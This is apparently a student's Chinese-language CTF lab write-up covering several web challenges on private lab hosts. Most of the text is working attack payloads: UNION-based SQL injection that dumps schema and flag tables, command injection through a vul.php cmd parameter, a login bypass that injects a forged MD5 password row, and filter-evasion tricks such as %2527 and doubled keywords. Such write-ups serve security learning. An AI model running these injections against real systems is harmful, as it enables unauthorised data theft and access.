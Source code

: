 # http://192.168.100.40:10000/

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901170852913.png" alt="image-20240901170852913" style="zoom:50%;" />

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901171115511.png" alt="image-20240901171115511" style="zoom:50%;" />

```sql
//获取数据库名-->ctftraining
-200'union select database() # 
```

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901171208200.png" alt="image-20240901171208200" style="zoom:50%;" />

```sql
//获取表名-->flag,news,users
-200'union select group_concat(table_name) from information_schema.tables where table_schema=database() #
```

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901171449462.png" alt="image-20240901171449462" style="zoom:50%;" />

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901171531527.png" alt="image-20240901171531527" style="zoom:50%;" />

```sql
//获取字段名-->
-200'union select * from flag#
```

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901172156181.png" alt="image-20240901172156181" style="zoom:50%;" />

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901172237974.png" alt="image-20240901172237974" style="zoom:50%;" />

```cmd
//最终的flag
ctftraining{0cTob3r_1s_B34ut1ful}
```

# http://192.168.100.40:10001/

![image-20240901172518016](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901172518016.png)

```sql
http://192.168.100.40:10001/start/vul.php?cmd=ls%20%3Etomato-sh.txt
```

![image-20240901172609179](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901172609179.png)

```sql
//访问获取key
http://192.168.100.40:10001/start/tomato-sh.txt
```

![image-20240901172703957](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901172703957.png)

# .http://192.168.100.40:10002/

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901172928109.png" alt="image-20240901172928109" style="zoom:50%;" />

```cmd
//先随便登录,查看源码
1.发现有两个需要传的POST参数,name对应用户名,password对应密码
2.还有个md5函数对密码进行加密
3.登录时判断密码是否和加密的md5密码相等,如果相等则输出flag
```

![image-20240901173417570](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901173417570.png)

![image-20240901173437516](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901173437516.png)

```
//到这里说明思路大致正确的,sql语句报错了
//找到md5在线加解密网站,随便输入一个数字:666
//加密后:fae0b27c451c728867a567e8c1bb4e53 -->(32位小写)
```

![image-20240901173934520](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901173934520.png)

```sql
//这里需要注意,admin和md5加密部分需要用''引号
//方法1:使用bp抓包
name=1'union select 1,'admin','fae0b27c451c728867a567e8c1bb4e53' #&pw=666 

//方法2:直接登录
username: 1'union select 1,'admin','fae0b27c451c728867a567e8c1bb4e53' #
password: 666
```

![image-20240901174939667](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901174939667.png)

# http://192.168.100.230/sqlexam/examine1.php

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901175057801.png" alt="image-20240901175057801" style="zoom:50%;" />

```
//根据代码,可以知道union和select不能同时使用所以需要使用%0a间隔开
//'也是无法使用,需要用%2527来替换
id=-1%2527union%0aselect 1,2,3 #
```

<img src="C:\Users\24937\Desktop\学习\笔记\assets\image-20240901175929802.png" alt="image-20240901175929802" style="zoom:50%;" />

### `查看数据库名`

```sql
//传递post参数
id=-1%2527union%0aselect 1,database(),3 #
```

![image-20240901180050884](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901180050884.png)



### `查看表名`

```sql
id=-1%2527union%0aselect 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 #
```

![image-20240901180831061](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901180831061.png)

### `查看flag表的字段`

```sql
//这里指定表的时候需要注意单引号也需要变成%2527使用
id=-1%2527union%0aselect 1,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=%2527flag%2527),3 #
```

![image-20240901181111497](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901181111497.png)

### `获取最终的flag`

```sql
id=-1%2527union%0aselect 1,(select group_concat(Id,flag) from test1.flag),3 #
```

![image-20240901181341139](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901181341139.png)

# http://192.168.100.230/sqlexam/examine2.php

### `查看回显点`

```sql
id=-1'uniunionon selselectect 1,2,3 #
```

![image-20240901181706818](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901181706818.png)

### `查看数据库名`

```
id=-1'uniunionon selselectect 1,database(),3 #
```

![image-20240901181736720](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901181736720.png)

### `查看表名`

```sql
id=-1'uniunionon selselectect 1,(selselectect group_concat(table_name) ffromrom infoorrmation_schema.tables where table_schema=database()),3 #
```

![image-20240901184350207](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901184350207.png)

### `获取flag表字段`

```SQL
id=-1'uniunionon selselectect 1,(selselectect group_concat(column_name) ffromrom infoorrmation_schema.columns where table_name='flag'),3 #
```

![image-20240901185253717](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901185253717.png)

### `获取flag`

```sql
id=-1'uniunionon selselectect 1,(selselectect group_concat(flag,0x3a,Id) ffromrom test2.flag),3 #
```

![image-20240901185543879](C:\Users\24937\Desktop\学习\笔记\assets\image-20240901185543879.png)